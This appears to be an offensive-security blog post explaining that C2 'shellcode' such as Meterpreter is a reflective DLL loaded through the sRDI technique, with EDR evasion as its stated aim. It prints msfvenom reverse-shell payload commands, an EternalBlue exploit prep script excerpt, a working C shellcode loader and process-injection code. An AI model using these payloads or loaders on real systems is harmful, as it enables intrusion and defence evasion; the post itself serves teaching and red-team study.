



This blog post is meant to directly support the [talk](https://www.linkedin.com/posts/n0h4ts_rescheduled-are-you-interested-and-ready-activity-7295820825918611456-Oyyw?utm_source=share&utm_medium=member_desktop&rcm=ACoAAD7pUncBxZ8Rxa4MkspWW4IiCPHKOwK-brc) I did for a N0H4TS fireside chat - you can find the slides: [here](https://docs.google.com/presentation/d/1qn-JkqwkYZCY391gZNmPZhTw9gYENIbhgRNJAg3dXf0/edit?usp=sharing).

.jpg)

## Overview

Often when newcomers encounter shellcode, whether through a security course, a CTF challenge, or a blog post - they tend to overlook the underlying mechanics of the code they are executing. This understanding is further abstracted away when using a C2 framework, which handles the intricacies behind the scenes.

When dealing with simpler defense mechanisms like Anti-Virus (AV), operators typically don't need a deep understanding of their shellcode's behavior. However, when attempting to bypass more advanced solutions like [Endpoint Detection and Response (EDR)](https://www.crowdstrike.com/en-us/cybersecurity-101/endpoint-security/endpoint-detection-and-response-edr/) - I've witnessed operators struggle, and entire engagements fail due to a lack of understanding of _what they are even evading_ and _what their tools are doing_.

## Shellcode - A Primer

> "shellcode" in this context refers to PIC payloads generated exclusively by C2 frameworks that use the [Shellcode Reflective DLL Injection (sRDI)](https://github.com/monoxgas/sRDI) technique, **not** true position-independent shellcode such as those seen [here](https://github.com/rapid7/metasploit-framework/tree/master/external/source/shellcode/windows/x64/src).

If you have been doing offensive security for a while, you have likely come across "shellcode" in one of many ways. For example, generating a [meterpreter](https://github.com/rapid7/metasploit-payloads) payload with `msfvenom` and the following arguments may be familiar:

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp ... -f raw
msfvenom -p windows/x64/meterpreter_reverse_tcp ... -f c

Completing available payloads
windows/x64/meterpreter_bind_named_pipe   -- Connect to victim and spawn a Meterpreter shell. Requires Windows XP SP2 or newer.
windows/x64/meterpreter_bind_tcp          -- Connect to victim and spawn a Meterpreter shell. Requires Windows XP SP2 or newer.
windows/x64/meterpreter_reverse_http      -- Connect back to attacker and spawn a Meterpreter shell. Requires Windows XP SP2 or newer.
windows/x64/meterpreter_reverse_https     -- Connect back to attacker and spawn a Meterpreter shell. Requires Windows XP SP2 or newer.
windows/x64/meterpreter_reverse_ipv6_tcp  -- Connect back to attacker and spawn a Meterpreter shell. Requires Windows XP SP2 or newer.
windows/x64/meterpreter_reverse_tcp       -- Connect back to attacker and spawn a Meterpreter shell. Requires Windows XP SP2 or newer.
```

Or, if you have ever used one of the [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010/blob/master/shellcode/shell_prep.sh) exploit for EternalBlue (MS17-010) - you may have seen the following commands executed to prepare shellcode for the exploit:

```bash
 if [ "$cmd" -eq 0 ]; then
        echo Type 0 to generate a staged payload or 1 to generate a stageless payload
        read staged
        if [ "$staged" -eq 0 ]; then
            <...snip...>
            msfvenom -p windows/x64/meterpreter/reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=$ip LPORT=$portOne
            <...snip...>
            msfvenom -p windows/meterpreter/reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=$ip LPORT=$portTwo
        elif [ "$staged" -eq 1 ]; then
            <...snip...>
            msfvenom -p windows/x64/meterpreter_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=$ip LPORT=$portOne
            <...snip...>
            msfvenom -p windows/meterpreter_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=$ip LPORT=$portTwo
            <...snip...>
```

### Debugging Shellcode

Rather than going into the theory and source code behind shellcode, I believe it's more beneficial to understand how some (such as myself) operators get confused when copying and pasting shellcode loaders from the internet. For example, consider the following shellcode loader:

```c
#include <windows.h>
unsigned char shellcode[] = { ... }; 
INT main() {
    LPVOID Addr   = NULL;
    HANDLE Handle = NULL;

    if ( ! ( Addr = VirtualAlloc( NULL, sizeof( shellcode ), MEM_COMMIT, PAGE_EXECUTE_READWRITE ) ) ) {
        printf( "[-] VirtualAlloc() failed: %d\n", GetLastError() );
        return 1;
    }

    RtlCopyMemory( Addr, shellcode, sizeof( shellcode ) );

    if ( ! ( Handle = CreateThread( NULL, 0, Addr, NULL, 0, NULL ) ) ) {
        printf( "[-] CreateThread() failed: %d\n", GetLastError() );
        return 1;
    }

    WaitForSingleObject( Handle, -1 );
    return 0;
}
```

When a debugger is attached to the process with breakpoints set on memory allocation (`NtAllocateVirtualMemory`), you may notice that (apart from your loader's calls) - there are additional calls to `NtAllocateVirtualMemory` made by the shellcode itself.



This is because the shellcode uses a technique known as [Shellcode Reflective DLL Injection (sRDI)](https://github.com/monoxgas/sRDI) to load itself into memory.

### Reflective DLL Injection

Traditionally, DLLs are loaded from disk using APIs such as [LoadLibraryA](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya) or [LoadLibraryExA](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibraryexa). However, the [Reflective DLL Injection](https://github.com/stephenfewer/ReflectiveDLLInjection) repository by Stephen Fewer demonstrates how to reflectively load a DLL in memory using a `ReflectiveLoader` function.

The `ReflectiveLoader` function will do the heavy lifting of fixing relocations, import & export tables, copying the DLL headers & sections, and calling the DLL's entry point. The repository also includes an example of calling the `ReflectiveLoader` function from the loader using a `LoadRemoteLibraryR` function.

```c
HANDLE WINAPI LoadRemoteLibraryR( HANDLE hProcess, LPVOID lpBuffer, DWORD dwLength, LPVOID lpParameter ) {
    ...
    # Finds the offset of the ReflectiveLoader() function from the base of the reflective DLL
    dwReflectiveLoaderOffset = GetReflectiveLoaderOffset( lpBuffer );

    # Allocates memory for the reflective DLL
    lpRemoteLibraryBuffer = VirtualAllocEx( hProcess, NULL, dwLength, MEM_RESERVE|MEM_COMMIT, PAGE_EXECUTE_READWRITE );

    # Writes the reflective DLL allocated memory
    if( !WriteProcessMemory( hProcess, lpRemoteLibraryBuffer, lpBuffer, dwLength, NULL ) )

    # Calculates the absolute address of the ReflectiveLoader() function by adding the offset to the base address
    lpReflectiveLoader = (LPTHREAD_START_ROUTINE)( (ULONG_PTR)lpRemoteLibraryBuffer + dwReflectiveLoaderOffset );

    # Redirects execution to ReflectiveLoader()->ReflectiveDLL
    hThread = CreateRemoteThread( hProcess, NULL, 1024*1024, lpReflectiveLoader, lpParameter, (DWORD)NULL, &dwThreadId );
    ...
}
```

The reflective loading process can be visually represented as follows:



You may realize that the implementation of `LoadRemoteLibraryR` closely resembles our shellcode loader, except that execution is redirected to the `ReflectiveLoader` function rather than the base address of the shellcode. 

### Shellcode Reflective DLL Injection (sRDI)

The [Shellcode Reflective DLL Injection (sRDI)](https://github.com/monoxgas/sRDI) technique takes advantage of the reflective loading process by embedding a small assembly stub in the `ReflectiveDLL` itself that will redirect execution to the `ReflectiveLoader()` function - effectively bypassing the need for the `LoadRemoteLibraryR` function. 

As a result, the Reflective DLL can now effectively be treated like shellcode - as we can now redirect execution to the base address of the Reflective DLL, and ignore the need for calculating the offset of the `ReflectiveLoader` function.



For clarity, the stub will only calculate the absolute address of the `ReflectiveLoader` function and redirect execution to it and omit any allocation of memory as it assumes that the loader has already allocated memory for the Reflective DLL. An example of the above stub can be as simple as:

```asm
; gonna ignore all the setup and just show the stub
...
mov  rbx, <dll_base_address>              ; base address of rDLL
add  rbx, <offset_to_ReflectiveLoader()>  ; &ReflectiveLoader = base + offset
call rbx
...
mov  rax, &ExitProcess                    ; exit process, alternatively ExitThread()
call rax
```

A similar stub can be found when decompiling the meterpreter shellcode generated by `msfvenom` in the DOS header:

```asm
...
add  rbx, 0x188D4   ; &ReflectiveLoader = base + 0x188D4
call rbx
...
```

The `0x188D4` offset is baked into the stub at compile-time, and calculates to the RVA of `ReflectiveLoader`.

.png)

## Meterpreter Payloads

We know that Meterpreter's shellcode is actually a Reflective DLL with a hotpatched DOS header, we can now understand why the shellcode performs memory allocations when debugging. The shellcode is effectively loading itself into memory using the sRDI technique.

The position-independent nature of meterpreter's shellcode allows for a plethora of executable formats exposed by `msfvenom` as the executables simply need to be a shellcode loader. Unfortunately Meterpreter, in fact, is not rewritten in all of these languages:

```
Framework Executable Formats [--format <value>]
===============================================

    Name
    ----
    asp
    aspx
    aspx-exe
    axis2
    dll
    ducky-script-psh
    elf
    elf-so
    exe
    exe-only
    exe-service
    exe-small
    hta-psh
    jar
    jsp
    loop-vbs
    macho
    msi
    msi-nouac
    osx-app
    psh
    psh-cmd
    psh-net
    psh-reflection
    python-reflection
    vba
    vba-exe
    vba-psh
    vbs
    war
```

## Considerations for Evasion

Certain EDR solutions closely analyze memory allocations, and often flag on certain "rules" in memory management. For example, Elastic often flags on [unbacked (non-module backed)](https://github.com/search?q=repo%3Aelastic%2Fprotections-artifacts%20unbacked&type=code) memory performing some operations. 

Unfortunately, this memory may not always be directly managed by the shellcode loader, but rather by the shellcode itself (in the case of C2s that use Reflective Loading). Some C2 frameworks expose an interface to modify the Reflective Loader such as the [User-Defined Reflective Loader](https://www.cobaltstrike.com/product/features/user-defined-reflective-loader) in Cobalt Strike, and obviously operators can freely modify the reflective loader of open-source C2s such as [Havoc](https://github.com/HavocFramework/Havoc).

## Conclusion

Understanding how shellcode operates is crucial for evading EDR solutions. Some red teams struggle with evasion because they rely on copying shellcode loaders from the internet or using payload generators without modifying the shellcode itself.